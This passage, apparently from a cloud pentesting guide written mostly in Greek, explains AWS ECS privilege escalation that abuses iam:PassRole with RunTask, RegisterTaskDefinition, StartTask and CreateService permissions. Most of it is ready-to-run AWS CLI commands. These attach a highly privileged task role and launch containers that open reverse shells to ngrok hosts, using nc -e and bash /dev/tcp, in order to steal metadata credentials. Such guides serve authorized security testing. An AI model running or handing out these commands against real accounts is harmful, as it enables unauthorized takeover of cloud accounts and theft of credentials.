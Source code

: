 If the IAM role that the attacker can pass has enough privileges to pull to ECR image and start the ECS task (`ecr:BatchCheckLayerAvailability`, `ecr:GetDownloadUrlForLayer`,`ecr:BatchGetImage`,`ecr:GetAuthorizationToken`) then the attacker can specify the same IAM role for both `executionRoleArn` and `taskRoleArn` in the `ecs run-task` command.
```sh
aws ecs run-task --cluster <cluster-name> --launch-type FARGATE --network-configuration "awsvpcConfiguration={subnets=[<subnet-id>],securityGroups=[<security-group-id>],assignPublicIp=ENABLED}" --task-definition <task-definition:revision> --overrides '
{
"taskRoleArn": "arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
"executionRoleArn":"arn:aws:iam::<redacted>:role/HighPrivilegedECSTaskRole",
"containerOverrides": [
{
"name": "<container-name>",
"command": ["nc", "4.tcp.eu.ngrok.io", "18798", "-e", "/bin/bash"]
}
]
}'
```
**Potential Impact:** Άμεσο privesc σε οποιονδήποτε ECS task role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Όπως στο προηγούμενο παράδειγμα, ένας attacker που εκμεταλλεύεται τα δικαιώματα **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** στο ECS μπορεί να **δημιουργήσει ένα νέο task definition** με ένα **κακόβουλο container** που κλέβει τα metadata credentials και να το **τρέξει**.\
Ωστόσο, σε αυτή την περίπτωση, απαιτείται μια container instance για να τρέξει το κακόβουλο task definition.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
--container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**Πιθανός Αντίκτυπος:** Direct privesc to any ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, (`ecs:UpdateService|ecs:CreateService)`


Όπως και στο προηγούμενο παράδειγμα, ένας attacker που καταχράται τα **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:UpdateService`** ή **`ecs:CreateService`** δικαιώματα στο ECS μπορεί να **δημιουργήσει ένα νέο task definition** με έναν **malicious container** που **κλέβει τα metadata credentials** και **να το τρέξει δημιουργώντας ένα νέο service με τουλάχιστον 1 task σε λειτουργία.**
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn  "$ECS_ROLE_ARN" \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/8.tcp.ngrok.io/12378 0>&1\\\"\"]}]"

```